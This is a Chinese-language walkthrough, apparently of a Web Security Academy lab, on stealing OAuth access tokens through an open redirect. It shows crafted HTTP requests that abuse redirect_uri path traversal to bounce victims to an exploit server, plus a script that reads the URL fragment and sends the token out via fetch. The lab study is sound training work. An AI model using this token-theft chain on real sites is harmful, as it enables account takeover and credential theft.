 然后看到了一堆code的值。然后直接用原本应该的那个报文登陆进去。

然后删除账户就好了。

## 4. Stealing OAuth access tokens via an open redirect

因为要交API key，所以先去找了找api key在哪。api key是下面这个报文的应答。并且发现这里的`Authorization: Bearer`后面的参数是请求`/auth?`返回的那个重定向的`#`后面的参数`access_token`的值。

```http
GET /me HTTP/1.1
Host: acbc1f801e6a6ff7823f1e5b023800fe.web-security-academy.net
Authorization: Bearer J7txiu--FIQ7af-28WjOOy7A1OciAD69SsJojRcxz9a
```

```
{"sub":"wiener","apikey":"uR4yr0qxKI4mGoiaToG6z5POaEYQbTw2","name":"Peter Wiener","email":"wiener@hotdog.com","email_verified":true}
```

这个靶场是一个开放重定向，通过redirect_uri参数来控制的。

登陆一次之后，再次登录不再需要用户名和密码。并且在登陆的时候依旧会发送上面那个报文。

然后尝试重定向的uri能不能直接指向exploit，发现不能。

经过尝试，发现uri前面必须是`https://ac591f091e096fd382801e3a00d3002b.web-security-academy.net/oauth-callback`。但是后面好像可以随便加。

在Post页面发现了这个：`/post/next?path=/post?postId=10`

> 目录遍历的技巧来提供域上的任何任意路径。就像这样。
>
> `https://client-app.com/oauth/callback/../../example/path`

```http
GET /auth?client_id=ox5eb9gwefi89760jpnsk&redirect_uri=https://ac591f091e096fd382801e3a00d3002b.web-security-academy.net/oauth-callback/../post/next?path=https://ac4f1f531e966f5f82bd1e78013200fc.web-security-academy.net/exploit&response_type=token&nonce=-332014228&scope=openid%20profile%20email HTTP/1.1
Host: acbc1f801e6a6ff7823f1e5b023800fe.web-security-academy.net
```

用浏览器访问这个，成功返回了`Hello, world!`，但是用repeater一步一步的来不行，貌似是不解析`/oauth-callback/../post/next?path=xxx`，但是在浏览器里面的时候，发送报文的时候就会直接访问`/post/next?path=xxx`，就可以跳转过去。

虽然成功跳转过去了，但是发现＃后面的参数没有了，因为请求的时候就没带上。而且我看报文里也没有地方包含了。

> [URL的井号 - 阮一峰的网络日志 (ruanyifeng.com)](https://www.ruanyifeng.com/blog/2011/03/url_hash.html)
>
> \#(hash)是用来指导浏览器动作的，对服务器端完全无用。所以，HTTP请求中不包括#。
>
> window.location.hash这个属性可读可写。读取时，可以用来判断网页状态是否改变；写入时，则会在不重载网页的前提下，创造一条访问历史记录。

于是我就又在exploit里面将参数重新给发送了一下。

```html
<script>
fetch("/aaaa/" + escape(window.location.hash));
</script>
```
